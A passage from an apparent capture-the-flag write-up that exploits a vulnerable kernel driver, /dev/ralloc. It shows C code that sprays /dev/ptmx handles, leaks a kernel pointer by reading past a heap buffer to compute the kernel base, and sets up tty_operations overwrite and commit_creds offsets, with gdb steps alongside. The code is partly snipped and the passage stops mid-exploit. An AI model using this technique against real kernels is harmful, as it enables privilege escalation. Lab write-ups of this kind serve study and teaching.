 ```C


  kmalloc(fd, 0, 0x400);
  get(fd, 0, 0x420, &buf);
  return 0;
}
```
Now, doing so, upon setting up a breakpoint at the `rope2_ioctl`'s `kmalloc` call and stepping to it, we see the heap structure as:-

> Note: Before debugging do: `add-symbol-file ralloc.ko 0xffffffffc0002000` in the `gdb-gef`.

Then, moving on, setup a breakpoint at the `b *rope2_ioctl + 342` and then running the program, once it hits the breakpoint, when we see the memory:-

![](/img/ropetwo/kmalloc.png)

Now, considering that, if we see for the memory content, the `ptm_unix98_ops` object was at `heap.size + 32`, since `heap.size` was `0x400`, the `ptm_uniz98_ops` was at the `0x420`. Using the `get` function, we can have the leak:-

![](/img/ropetwo/leak.png)


Now, since we have a leak, this will be useful in retrieving the base address to calculate the address of the function and gadget we will need, for now, since the structure as defined, if we can overwrite the `*ops` with the help of the fake `tty_operations` array created from the userland, we can have the RIP control.

> The POC for `tty_struct` and RIP control can be understood from here: <https://www.lazenca.net/pages/viewpage.action?pageId=29327365#id-07.Use-After-Free(UAF)(feat.tty_struct)-PoCcode>

Now compiling the exploit:-

```C

unsigned long kbase, kheap;
unsigned long ptm_unix98_ops = 0x10af6a0;
unsigned long pop_rdi, kpti;
unsigned long init_creds = 0x165fa00;
unsigned long commit_creds = 0xc0540;

void *fake_tty_operations[30];

int spray_fd[0x100];


//[..snip..] 

int main() {
  unsigned long buf[0x420 / sizeof(unsigned long)];
  /* open drivers */
  int fd = open("/dev/ralloc", O_RDONLY);
  if (fd < 0) {
    perror("/dev/ralloc");
    return 1;
  }

  for(int i=0; i<0x100; i++)
 {
   spray_fd[i] = open("/dev/ptmx", O_RDWR | O_NOCTTY);
 }

  kmalloc(fd, 0, 0x400);
  get(fd, 0, 0x420, &buf);
  kbase = buf[131] - ptm_unix98_ops;
```